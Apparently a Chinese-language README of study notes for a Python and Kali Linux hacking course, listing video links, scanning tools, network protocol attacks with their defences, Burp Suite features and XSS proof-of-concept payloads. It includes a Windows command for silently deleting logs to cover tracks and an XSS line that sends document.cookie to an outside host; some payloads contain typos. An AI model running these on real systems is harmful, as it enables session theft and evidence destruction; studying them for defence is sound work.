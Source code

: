 # [乾颐堂](https://www.qytang.com/) Python+Kali黑客全套教程

## 0x00 视频 + 源码 + PDF

- videos
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [python+kali的全套黑客编程实践教程，全知识点+实践练习，（针对小白/python/kali/网络安全）](https://www.bilibili.com/video/BV1bG4y1H784/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?vd_source=7f220845f0d7bc792a045e75a5ac8b8d#reply136957487232)

- 源码 + PDF

  需要 + up 主 wx

- PDF

  暂存本地 [python&kali 教程](待定)



## 0x01 简单记录

<!--last modify: 20230922-->

- 扫描工具

  ping  /  fping / nping / arping / nbtscan / onesixtyone

- python + nmap

  ```tex
  # https://pypi.org/project/python-nmap/
  # pip install python-nmap
  # import nmap
  ```

  - pypi 中有相关使用方法

- 痕迹清理

  ```shell
  del %WINDIR%\*.log /a/s/q/f # 强制静默删除只读文件
  ```

- nexpose api

  ```tex
  https://<host>:<port>/api/api-version/xml
  ```

- 协议攻击

  ```tex
  mac 泛洪 + mac 欺骗
      macof
      # 防御 port security 技术
  
  dhcp 攻击
      pig.py 干掉合法dhcp 服务器
      非法dhcp 服务器开始干活儿
      # 防御 dhcp snooping 技术
  
  arp 攻击
      arpspoof
      # 防御 DAI 技术
  
  dns spoofing
      ettercap # dns 欺骗
      set # 社会工程学
  ```

- windows 沙盒探测



- 工具

  ```tex
  BurpSuite
  	Proxy 代理 / Intruder 攻击 / Repeater 重放
      Comparer 可比较两个不同请求页面的响应区别
      Spider 手工爬取+自动爬取
      Scanner 手工+自动
      Sequencer 自动确认Cookies 随机性
      Decoder + Extender 编/解码(绕过) + 扩展(WAF 绕过等)
  ```

- XSS POC & 攻击技巧

  ```tex
  # 手工改确认
  	1- 脚本：<script>alert('xss')</script>
  	2- 超链接：<a href='' onclick=alert('xss')>click it</a>
  	3- 图片：<img src=http://172.16.1.23/a.jpgg onerror=alert('xss')>
  	4- 重定向：<script>window.location="http://www.testfire.net/index.jsp"</script>
  	5- iframe：<iframe width=300 height=100 src="http://dvwa.com/xss_vul/?name=<script>window.location='http://baidu.com/login_cookie.php?sid='%2Bdocumet.cookie;</script>"></iframe>
  	6- DOM：<script>document.body.ierHTML="<div style=visibility.visible;><br/><br/><h1>test</h1></div>";</script>
  
  # 攻击技巧
  	1- hook
  	2- keylogger
  ```

  
